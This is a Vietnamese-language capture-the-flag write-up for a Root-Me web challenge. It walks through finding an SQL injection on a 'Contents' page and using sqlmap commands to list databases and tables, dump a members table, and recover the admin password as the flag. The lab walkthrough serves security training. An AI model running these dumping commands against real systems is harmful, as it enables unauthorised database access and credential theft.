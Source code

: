 ![image](https://user-images.githubusercontent.com/125866921/231938826-85a12e93-c220-4c1d-a25d-43d70e8defaa.png)

  - Ta thấy lỗi của bài này xuất hiện ở page ``Contents``. Khi ta thêm kí tự ``'`` vào cuối URL sẽ xuất hiện lỗi.  
  - Do đó ta có thể khai thác SQLi từ page này, sử dụng ``sqlmap`` với URL ta sử dụng ``-u``.  

        python3 sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC" --dbs  
        
      - Trong ngoặc kép là phần URL cần được khai thác.  
      - ``--dbs`` là để lấy dữ liệu từ database.  

![image](https://user-images.githubusercontent.com/125866921/231939709-bbaea358-9c88-4e36-afb2-504615a433dc.png)

  - Kết quả trả về cho ta thấy được là ở bài này có 2 cách khai thác là ``blind`` và ``error``.  
  - Kết quả trả về cũng cho ta được 3 database, nhưng ở đây ta chỉ cần chú ý vào ``database public``.  
  - Ta thực hiện lấy các tables có trên database này:  

        python3 sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC" -D public --tables
        
      - ``--tables`` được sử dụng để lấy các bảng.  
      - ``-D public`` dùng để lấy kết quả trong `database public``.  

![image](https://user-images.githubusercontent.com/125866921/231940117-c952c875-b154-4bdf-b669-4ec6d5e3093b.png)

  - Ta thấy có 1 bảng rất đáng nghi là ``m3mbr35t4bl3``. Vì thế ta sẽ thực hiện lấy dữ liệu của bảng đó.  

        python sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC" -D public -T m3mbr35t4bl3 --dump  
        
      - ``-T`` là chỉ vào bảng cần lấy dữ liệu.  
      - ``--dump`` là lấy toàn bộ dữ liệu của bảng.  

![image](https://user-images.githubusercontent.com/125866921/231940471-103a7248-6c9c-4f2d-bf7c-98f11d646dee.png)

  - Kết quả trà về ta thấy có 1 tài khoản ``admin``.  
  - Mật khẩu của tài khoản cũng chính là flag mà ta cần tìm.  
